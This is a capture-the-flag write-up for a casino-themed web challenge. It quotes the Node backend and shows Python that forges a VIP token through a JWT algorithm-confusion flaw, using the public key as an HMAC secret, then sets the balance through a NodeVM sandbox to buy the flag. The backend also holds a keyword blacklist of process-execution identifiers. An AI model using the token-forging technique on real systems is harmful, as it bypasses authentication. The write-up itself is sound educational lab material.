

## DEvELOPmENT A Casino  


This challenge involves a casino system where we have to play slots until we rack up enough credits to purchase the flag.  

The problem is that our balance starts at `$100`, but the flag costs `$1000,000`, thus making manual credit farming unfeasible.  

```js
app.post('/api/spin', (req, res) => {
  const bet = parseInt((req.body && req.body.bet) || 0, 10);
  let bal = getBalance(req);

  if (!Number.isFinite(bet) || bet <= 0) {
    return res.status(400).json({ error: 'invalid bet' });
  }
  if (bet > bal) {
    return res.status(400).json({ error: '잔액 부족' });
  }

  const symbols = ['🍒', '🍋', '⭐', '7'];
  const reels = [
    symbols[Math.floor(Math.random() * symbols.length)],
    symbols[Math.floor(Math.random() * symbols.length)],
    symbols[Math.floor(Math.random() * symbols.length)]
  ];

  let delta;
  let message;
  if (reels[0] === '7' && reels[1] === '7' && reels[2] === '7') {
    delta = 100;
    message = 'JACKPOT! +100 크레딧!';
  } else if (reels[0] === reels[1] && reels[1] === reels[2]) {
    delta = 30;
    message = '트리플 매치! +30 크레딧!';
  } else {
    delta = -bet;
    message = `꽝… -${bet} 크레딧.`;
  }

  bal += delta;
  setBalance(req, bal);

  res.json({
    reels,
    delta,
    balance: bal,
    message
  });
});

...

app.post('/api/shop/flag', (req, res) => {
  let bal = getBalance(req);

  if (bal < FLAG_PRICE) {
    return res.status(400).json({
      error: `잔액이 부족합니다. 플래그 가격은 ${FLAG_PRICE} 크레딧입니다.`,
      balance: bal
    });
  }

  bal -= FLAG_PRICE;
  setBalance(req, bal);

  return res.json({
    message: '플래그를 구매했습니다.',
    flag: FLAG,
    balance: bal
  });
});
```

Looking at the backend, we can actually notice a VIP endpoint that implements the normal spin logic, but also allows arbitrary code execution using NodeVM at the end.  

However, the endpoint requires us to be authentication with the `vip` role. If we were able to access it, we could directly modify our balance to the flag price.  

```js
app.post('/api/strategy/run', requireRole('vip'), (req, res) => {
  const code = (req.body && req.body.code) ? String(req.body.code) : '';

  if (!code || code.length > 4000) {
    return res.status(400).json({ error: 'invalid code length' });
  }
  const blackList = /\brequire\b|\bprocess\b|\bchild_process\b|\bfs\b/;
  if (blackList.test(code)) {
    return res.status(400).json({ error: 'forbidden identifier in code' });
  }

  const logs = [];
  const sandbox = {
    balance: getBalance(req),
    history: [],
    spin: (bet) => {
      let bal = sandbox.balance;
      bet = parseInt(bet, 10) || 0;
      if (bet <= 0) {
        return { error: 'invalid bet' };
      }
      if (bet > bal) {
        return { error: '잔액 부족' };
      }

      const symbols = ['🍒', '🍋', '⭐', '7'];
      const reels = [
        symbols[Math.floor(Math.random() * symbols.length)],
        symbols[Math.floor(Math.random() * symbols.length)],
        symbols[Math.floor(Math.random() * symbols.length)]
      ];

      let delta;
      if (reels[0] === '7' && reels[1] === '7' && reels[2] === '7') {
        delta = 100;
      } else if (reels[0] === reels[1] && reels[1] === reels[2]) {
        delta = 30;
      } else {
        delta = -bet;
      }

      bal += delta;
      sandbox.balance = bal;
      const info = { bet, reels, delta, balance: bal };
      sandbox.history.push(info);
      return info;
    }
  };

  const vm = new NodeVM({
    console: 'redirect',
    sandbox: { sandbox },
    timeout: 1000,
    eval: false,
    wasm: false
  });

  vm.on('console.log', (msg) => {
    logs.push(String(msg));
  });

  let result;
  try {
    result = vm.run(code, 'strategy.js');
  } catch (e) {
    return res.status(400).json({ error: String(e), logs });
  }

  setBalance(req, sandbox.balance);

  return res.json({
    result: result === undefined ? null : result,
    logs,
    finalBalance: sandbox.balance,
    spins: sandbox.history
  });
});
```

We can notice a fatal error in the authentication, which is that the backend uses the public key as the HMAC secret for signing tokens. Furthermore, the public key can also be retrieved from the `/helpsign` endpoint.  

```js
function getUserFromReq(req) {
  let token = req.cookies.auth;
  if (!token && req.headers.authorization && req.headers.authorization.startsWith('Bearer ')) {
    token = req.headers.authorization.slice(7);
  }
  if (!token) return null;

  try {
    const [headerB64] = token.split('.');
    const headerJson = Buffer.from(headerB64, 'base64url').toString('utf8');
    const header = JSON.parse(headerJson);

    let decoded;
    if (header.alg === 'RS256') {
      decoded = jwt.verify(token, JWT_PUBLIC_KEY, { algorithms: ['RS256'] });
    } else if (header.alg === 'HS256') {
      decoded = jwt.verify(token, JWT_PUBLIC_KEY_PEM, { algorithms: ['HS256'] });
    } else {
      throw new Error('unsupported alg');
    }

    return decoded;
  } catch (e) {
    return null;
  }
}

...

app.get('/helpsign', (req, res) => {
  res.type('text/plain');
  res.sendFile(path.join(__dirname, 'jwtRS256.key.pub'));
});
```

We can run an algorithm confusion attack by fetching the public key, then using it to sign our own VIP token.  

```python
import jwt

res = requests.get(f'{url}/helpsign')
pub_key = res.text

token = jwt.encode(
    payload={
        'uid': 'hacked',
        'role': 'vip'
    },
    key=pub_key,
    algorithm="HS256"
)
```

Do note that PyJWT prevents using public keys for signing as a security measure, so you have to disable the check in `jwt/algorithms.py` beforehand.  



After authenticating ourselves as VIP, we can then use the sandbox to edit our current balance and purchase the flag.  

```python
cookies = { 'auth': token }

payload = "sandbox.balance = 1000000"
res = requests.post(f'{url}/api/strategy/run', json={ 'code': payload }, cookies=cookies)

if "error" not in res.text.lower():
    print("> Balance updated")

res = requests.post(f"{url}/api/shop/flag", cookies=cookies)
print("Flag:", res.json()['flag'])
```

Flag: `DH{Thank_you_for_saving_my_life}`